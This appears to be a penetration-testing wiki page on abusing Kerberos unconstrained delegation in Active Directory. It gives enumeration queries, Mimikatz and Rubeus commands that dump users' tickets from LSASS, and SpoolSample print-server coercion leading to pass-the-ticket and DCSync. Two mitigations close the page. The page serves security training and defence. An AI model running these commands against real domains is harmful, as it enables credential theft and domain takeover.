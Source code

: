 # Unconstrained Delegation


## Unconstrained delegation

This a feature that a Domain Administrator can set to any **Computer** inside the domain. Then, anytime a **user logins** onto the Computer, a **copy of the TGT** of that user is going to be **sent inside the TGS** provided by the DC **and saved in memory in LSASS**. So, if you have Administrator privileges on the machine, you will be able to **dump the tickets and impersonate the users** on any machine.

So if a domain admin logins inside a Computer with "Unconstrained Delegation" feature activated, and you have local admin privileges inside that machine, you will be able to dump the ticket and impersonate the Domain Admin anywhere (domain privesc).

You can **find Computer objects with this attribute** checking if the [[<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) attribute contains [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>). You can do this with an LDAP filter of ‘(userAccountControl:1.2.840.113556.1.4.803:=524288|userAccountControl]]’, which is what powerview does:


```bash
# List unconstrained computers
## Powerview
## A DCs always appear and might be useful to attack a DC from another compromised DC from a different domain (coercing the other DC to authenticate to it)
Get-DomainComputer –Unconstrained –Properties name
Get-DomainUser -LdapFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)'

## ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem

# Export tickets with Mimikatz
## Access LSASS memory
privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
## Doens't access LSASS memory directly, but uses Windows APIs
Rubeus.exe dump
Rubeus.exe monitor /interval:10 [/filteruser:<username>] #Check every 10s for new TGTs
```
```
Load the ticket of Administrator (or victim user) in memory with **Mimikatz** or **Rubeus for a** [[pass-the-ticket.md|**Pass the Ticket**]]**.**\
More info: [[https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/|https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/]]\
[[https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation|**More information about Unconstrained delegation in ired.team.**]]

### **Force Authentication**

If an attacker is able to **compromise a computer allowed for "Unconstrained Delegation"**, he could **trick** a **Print server** to **automatically login** against it **saving a TGT** in the memory of the server.\
Then, the attacker could perform a **Pass the Ticket attack to impersonate** the user Print server computer account.

To make a print server login against any machine you can use [[https://github.com/leechristensen/SpoolSample|**SpoolSample**]]:

```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
```
If the TGT if from a domain controller, you could perform a [[acl-persistence-abuse/README.md#Dcsync|DCSync attack]] and obtain all the hashes from the DC.\
[[https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation|**More info about this attack in ired.team.**]]

Find here other ways to **force an authentication:**

[[printers-spooler-service-abuse.md]]

### Mitigation

- Limit DA/Admin logins to specific services
- Set "Account is sensitive and cannot be delegated" for privileged accounts.



